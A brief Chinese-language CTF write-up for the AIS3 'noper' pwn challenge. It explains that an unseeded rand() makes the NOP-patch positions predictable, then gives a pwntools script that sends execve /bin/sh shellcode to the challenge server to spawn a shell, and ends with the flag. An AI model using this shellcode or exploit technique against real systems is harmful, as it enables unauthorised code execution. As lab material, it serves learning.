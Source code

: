 # PWN - noper
## 題目解析
一個 ELF，會吃輸入的 shellcode，但是會隨機 patch 其中幾個 byte 變成 nop

## 漏洞
那個 rand() 沒有先給亂數種子，所以每次 rand() 的數字都一樣，因此迴避掉那些字元填寫 shellcode 就好

## exploit
```
from pwn import *

nop = '\x90'
shellcode = '\x31\xc0' + nop * 16 + '\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e' + nop * 6 + '\xb0\x3b\x0f\x05'
r = remote('quiz.ais3.org', 5002)
#r = process('noper')

'''
rand = [6, 10, 13, 17, 39, 41, 44, 51, 63]
rand = [7, 11, 14, 18, 40, 42, 45, 52, 64]
'''

raw_input('debug')
r.recvuntil(':')
r.sendline(shellcode)
r.interactive()
```

* flag: `AIS3{nOp_noOp_NOoop!!!}`
